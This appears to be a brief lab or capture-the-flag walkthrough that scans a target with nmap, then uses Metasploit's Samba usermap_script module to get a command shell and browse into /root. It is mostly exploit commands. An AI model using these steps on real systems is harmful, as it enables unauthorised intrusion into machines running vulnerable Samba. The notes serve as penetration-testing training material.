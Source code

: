 # H1 First Box

# H2 Terminal setup

Either be in root or use sudo. 
Create three tabs (VPN, NMAP, HACK).

# H2 Step One

First scans

```
# nmap -sV -A -oN output.txt. <ip address>
```

search in metasploit

```
# msfconsole

msf5> search samba
```

Review the excellent ranked modules
```
msf5> info /exploit/linux/samba
msf5> info /exploit/multi/samba/usermap_script
```

To execute
```
msf5> use /exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) >  show options
msf5 exploit(multi/samba/usermap_script) >  set RHOST <ip address>
msf5 exploit(multi/samba/usermap_script) >  exploit
```

This will create a command shell back in the terminal

summary
```
id
pwd
cd /home/<user>
cd /root
```
